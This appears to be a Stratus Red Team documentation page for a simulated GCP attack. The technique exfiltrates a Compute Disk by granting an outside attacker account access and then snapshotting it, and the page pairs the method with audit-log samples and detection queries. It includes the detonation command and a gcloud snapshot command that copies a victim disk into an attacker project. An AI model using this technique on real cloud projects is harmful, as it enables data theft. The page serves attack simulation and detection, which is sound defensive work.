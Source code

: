 ```yaml
---
title: Exfiltrate Compute Disk by sharing it
---
```


# Exfiltrate Compute Disk by sharing it


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates a Compute Disk by sharing with a fictitious attacker account. The attacker could then create a snapshot of the disk in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Disk

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the disk so that the attacker account has permissions to read the disk in their own project

!!! note

	Since the target e-mail must exist for this attack simulation to work, Stratus Red Team grants the role to stratusredteam@gmail.com by default.
	This is a real Google account, owned by Stratus Red Team maintainers and that is not used for any other purpose than this attack simulation. However, you can override
	this behavior by setting the environment variable <code>STRATUS_RED_TEAM_ATTACKER_EMAIL</code>, for instance:

	```bash
	export STRATUS_RED_TEAM_ATTACKER_EMAIL="your-own-gmail-account@gmail.com"
	stratus detonate gcp.exfiltration.share-compute-disk
	```


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-disk
```
## Detection


You can detect when someone changes the IAM policy of a Compute Disk, using the GCP Admin Activity audit logs event <code>v1.compute.disks.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-disk@domain.tld",
      "principalSubject": "user:user-sharing-the-disk@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.disks.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Disk, they can create a snapshot of it in their own GCP project using:

```bash
gcloud compute snapshots create stolen-snapshot \
	--source-disk https://www.googleapis.com/compute/v1/projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk
```

When they do so, a GCP Admin Activity event <code>v1.compute.snapshots.insert</code> is generated in the victim project, 
indicating that the attacker has not only shared but also actively stolen data from the disk (sample event shortened below):

```json hl_lines="5 6 14 16"
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "attacker@gmail.com",
      "principalSubject": "user:attacker@gmail.com"
    },
    "requestMetadata": {
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/...",
      // Note: the IP of the attacker is not logged in this event
    },
    "serviceName": "compute.googleapis.com",
    "methodName": "v1.compute.snapshots.insert",
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "@type": "type.googleapis.com/compute.snapshots.insert"
    },
    "metadata": {
      "@type": "type.googleapis.com/google.cloud.audit.CrossEntityControlAuditMetadata"
    }
  }
}
```

Based on these events, detection strategies may include:

- Alerting when the IAM policy of a Compute Disk is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.disks.setIamPolicy"
```

- Alerting when someone with an unexpected e-mail domain creates a snapshot of a Compute Disk. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.snapshots.insert"
NOT protoPayload.authenticationInfo.principalEmail=~".+@your-domain.tld$"
```




